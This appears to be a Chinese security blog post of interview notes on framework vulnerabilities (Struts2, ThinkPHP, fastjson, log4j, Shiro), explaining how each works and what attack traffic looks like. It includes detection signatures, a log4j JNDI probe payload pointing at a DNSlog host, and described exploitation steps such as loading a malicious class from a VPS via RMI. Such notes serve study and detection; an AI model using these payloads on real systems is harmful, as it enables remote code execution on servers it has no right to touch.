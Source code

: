 ```yaml
---
layout:     post
title:      框架漏洞
subtitle:   分析常见框架漏洞及其原理
date:       2020-8-18
author:     tahano
header-img: img/back2.jpg
catalog: true
tags:
    - 漏洞原理
---
```


## 前言

最近面试被问到了`Struts2`等常用框架的问题。整理一下



## 正文

# Struts2
**原理**
默认的content-type解析器会把用户传来的数据 直接当成代码执行，造成rce
**特征**
ognl表达式，memberaccess字段。可以通过catalina日志过滤关键信息查找攻击特征
# ThinkPhp
RCE、SQL注入为主：
# fastjson反序列化漏洞原理
## 利用原理
处理json数据过程中因为应用开启了autotype，却没进行安全的过滤，造成@type用户可控并会被服务器带回执行。所以利用POST-@type将值指向我们提前搭建在vps上的恶意class文件，期间配置RMI（marshalsec 搭建一个RMI服务器，进行远程加载payload）。传入数据之后，被服务器本地加载并执行反序列化造成漏洞

使用autotype功能进行序列化的json字符会带有一个@type来标记他字符的原始类型，然后在反序列化的时候会通过读取这个@type的值来调用setter或者是getter的方法来把json反序列化到对象。他这个漏洞就是@type的值可以被恶意构造，我们再构造一个合理的json，就能用@type指定一个攻击类库，从而实现攻击。
### 黑盒找洞
找json传输的接口测试回显，信息搜集指纹识别等、可以根据logo图标判断是否使用了fastjson或者改POST花括号不闭合看回显
#### 报错识别
burp修改为post请求   MIME改为json传输 
报错请求返回，会出现alibaba.fastjson，表示为：fastjson框架
### 不出网
直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过访问本地文件查看结果。通过dnslog外带（前提能执行dns请求）直接将结果回显到请求Poc的HTTP响应包中
## 特征
发送json数据会有datesourcename字段，且一般会有@type
# log4j漏洞原理

该漏洞主要是当日志在打印时遇到符号${就会以：为分割，前面的内容当作profix，后面的内容当作key。然后根据profix去寻找对应的lookup，再根据lookup实例调用
lookup方法，最后将key作为参数带入执行，从而引发代码执行漏洞。

# log4j2
## 漏洞原理
rmi和jndi这种服务，远程获取了恶意的class，解析之后造成rce
使用了lookup接口，通过JNDI注入触发日志，且调用jndi/rmi服务，远程获取了恶意的class，
同时java在加载class的时候，进行了反序列化，把 class还原成java，在反序列化中会触发你比如 (恶意class文件还原java后的代码中的）static里的代码Runtime.getRuntime().exec()这种代码，从而造成RCE
### 流量特征
通过全流量设备进行流量回查，同时匹配流量及日志中所有存在
```
jndi:ldap://               jndi:rmi
```
等字符的特征。
（工具可能触发）看DNS记录，设备上是否有dns外带检测告警
## 实战检测
url编码 传输payload，dnslog平台查看即可
```
${jndi:ldap://p8qnbn.dnslog.cn} 
```


# java之shiro漏洞原理 
因为通过rememberme来实现cookie对用户的记住功能，而处理cookie的机制是rememberme作为入口，对数据先base64解码、然后AES解码、然后执行反序列化最后把数据传回服务器。而期间AES的密钥泄露造成用户可以进行恶意cookie重构，所有相反的顺序，通过AES的key，构造出payload，在cookie的rememberme进行注入即可执行反序列化漏洞

## 攻击特征
cookie-rememberme的值正常都比较短，而攻击时的base64值很长
有些工具利用的时候DNSLOG+URLDNS进行检测，所以可能会留下大量dns记录
判断shiro对key正确性

shiro：
查看cookie中rememberme字段，恶意命令要从这里传入。判断是否有漏洞，查看返回包的set cookie，有rememberme=deleteme就说明它漏洞验证失败了。
shiro550：
因为cookie的AES加密使用的硬编码导致密钥可以被爆破，然后利用密钥进行解密和反序列化构建payload
shiro721：
虽然没有硬解码，但是可以构建恶意的rememberme值，因为服务端收到登录请求后，会对cookie的rememberme字段的值进行base64解码，接着进行aes解密，然后反序列化。因为我们自己构造了rememberme，所以经过处理后它的字段就会异常的长，这就是它的流量特征。

二者区别：shiro550使用已知密钥，只要有足够的密钥库，就不需要remember cookie；shiro721的ase加密的key因为是系统随机生成的，基本猜不到，需要使用登录后的rememberme去爆破正确的key值。即利用有效的rememverme cookie作为padding oracle attack的前缀，然后精心构造rememberme cookie值来实现反序列化漏洞攻击，难度高


# SpringBoot
**CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, WordPress, Yii和ZendFramework**

### 参考

